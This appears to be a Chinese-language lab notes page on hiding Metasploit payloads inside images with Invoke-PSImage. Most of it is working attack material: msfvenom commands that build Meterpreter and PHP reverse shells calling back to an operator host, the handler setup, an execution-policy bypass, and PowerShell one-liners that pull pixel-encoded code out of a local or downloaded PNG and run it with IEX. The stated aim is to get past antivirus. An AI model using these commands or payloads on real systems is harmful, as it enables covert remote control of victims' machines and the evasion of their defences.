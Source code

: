
[Invoke-PSImage利用分析](https://www.4hou.com/technology/9472.html)

[msf使用参考](https://blog.csdn.net/nzjdsds/article/details/82929265)

fail

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img.ps1 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img2.ps1   

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img3.ps1  --smallest  

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img4.ps1  --smallest   
```

success

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f psh-reflection  -o img.ps1 --smallest```

打开msf

```
use exploit/multi/handler
set LHOST 192.168.255.153
set LPORT 2333 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

payload的选择取决于生成被控端文件用了什么模块，名字都是一样的

msfpayload php/reverse_php LHOST=x.x.x.x LPORT=2333 R > re.php

set PAYLOAD php/reverse_php

先保证msf生成的payload执行可以反弹,再把它藏在图片中

如果 powershell.ps1 不能被执行 ，修改权限：在powershell中执行 set-ExecutionPolicy RemoteSigned


打开受控端powershell,执行

```Import-Module C:\Users\Administrator\Desktop\Invoke-PSImage.ps1```

```Invoke-PSImage -Script C:\Users\Administrator\Desktop\img5.ps1 -Image C:\Users\Administrator\Desktop\q.jpg -Out C:\Users\Administrator\Desktop\ss.png```

![](2.jpg)

回显

```
sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap("C:\Users\Administrator\Desktop\ss.png");$o=a Byte[] 2960;(0..4)|%{foreach($x in(0..591)){$p=$g.GetPixel($x,$_);$o[$_*592+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..2778]))
```

在受控端powershell执行回显即可反弹，复现成功

原理：将不免杀的payload藏于图片中，图片是免杀的，上传图片即可。调用图片的代码也是免杀的，类似于调用包含shellcode的文件

生成的回显即为调图片的代码。也可以根据需求设置调用网页上的图片。



evil.ps1 为我写的一个在powershell中输出 test 的小脚本，用于测试使用

```$powershell -exec bypass``` 或 ```$powershell```   # 在 cmd唤起powershell

（系统默认是禁止执行ps脚本的,所以实际用的时候后面都会带上bypass选项;有权限可以直接输入powershell，无需提权）


powershell中输入如下，弹出计算器

PS $```sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("https://raw.githubusercontent.com/3gstudent/test/master/Evilwow.png"));$o=a Byte[] 500;(0..0)|%{foreach($x in(0..499)){$p=$g.GetPixel($x,$_);$o[$_*500+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..13]))```

![](1.jpg)

**注意：图片像素数应大于payload字节数**

### 参考资料

[powershell攻击集](https://github.com/samratashok/nishang)

[Invoke-Mimikatz.ps1获取系统密码](https://cloud.tencent.com/info/b7a0330b78657d5b4c89a53d9e3061e4.html)





